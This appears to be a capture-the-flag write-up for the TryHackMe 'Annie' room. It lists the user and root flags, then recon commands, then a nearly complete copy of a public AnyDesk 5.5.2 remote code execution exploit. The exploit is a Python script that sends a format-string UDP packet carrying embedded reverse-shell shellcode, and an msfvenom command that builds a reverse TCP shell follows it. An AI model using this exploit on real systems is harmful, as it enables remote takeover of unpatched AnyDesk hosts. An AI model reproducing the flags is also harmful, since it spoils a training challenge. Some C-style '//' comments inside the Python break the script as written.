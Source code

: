 # <div align="center">[Annie](https://tryhackme.com/r/room/annie)</div>
## <div align="center">   Linux ● Medium </div>
<div align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/9bcbd71d6ed380bcbf41c10cce8ccfcd.png" height="200"></img>
</div>

## Task 1. Recon - Research - Exploit

Do your usual recon, go for some vulnerability research, and exploit this box already.
Also, don't forget the PrivEsc of course :)

Good luck & have fun!

## What is user.txt?
```
THM{N0t_ ju5t_ANY_D3sk}
```

## What is root.txt?
```
THM{0nly_ th3m_5.5.2_D3sk}
```

# Let start with Scanning the target:
```
nmap -sC -sV
```
## SSL Enumeration
```
openssl s_client -connect 10.10.10.10:7070
```
## Anydesk is Running on port 7070, let serch for any Exploit
```
searchsploit anydesk
```
## Here is the Exploit:
```
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881
import struct
import socket

## Note changes have been made from the original exploit

ip = '10.10.29.248'// Change This
port = 50001 // No Need To Change This Since Anydesk uses UDP ports for screensharing purposes

def gen_discover_packet(ad_id, os, hn, user, inf, func):
    d  = b'\x3e\xd1\x01'
    d += struct.pack('>I', ad_id)
    d += struct.pack('>I', 0)
    d += b'\x02' + bytes([os])
    d += struct.pack('>I', len(hn)) + hn
    d += struct.pack('>I', len(user)) + user
    d += struct.pack('>I', 0)
    d += struct.pack('>I', len(inf)) + inf
    d += b'\x00'
    d += struct.pack('>I', len(func)) + func
    d += b'\x02\xc3\x51'
    return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b"" // Make sure to generate the msfvenom reverse shell payload and replace the shellcode below 
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x39\xe2\xbf"
shellcode += b"\x91\x75\x37\x67\xa8\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x53\xcb\xe7\x08\x1f"
shellcode += b"\x35\x38\xc2\x38\xbc\xb0\x94\x3d\xa0\x2f\x11"
shellcode += b"\x3b\xe2\xae\xcd\x7f\x3a\x79\xad\x68\xaa\x36"
shellcode += b"\x77\x1f\x27\x3d\xc2\x13\xba\xb0\x94\x1f\x34"
shellcode += b"\x39\xe0\xc6\x2c\xd5\xb0\x2d\x38\x62\xdd\xcf"
shellcode += b"\x88\x84\xc9\xec\x7f\xdc\x87\x5b\x8b\xd1\xbe"
shellcode += b"\x06\x5f\x67\xfb\x71\x6b\x58\xc3\x22\x7f\xee"
shellcode += b"\x4e\x36\xe7\xbf\x91\x75\x37\x67\xa8"

print('sending payload ...')
p = gen_discover_packet(4919, 1, b'\x85\xfe%1$*1$x%18x%165$ln' + shellcode, b'\x85\xfe%18472249x%93$ln', b'ad', b'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()

print('reverse shell should connect within 5 seconds')
```

## Creating shell code 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```
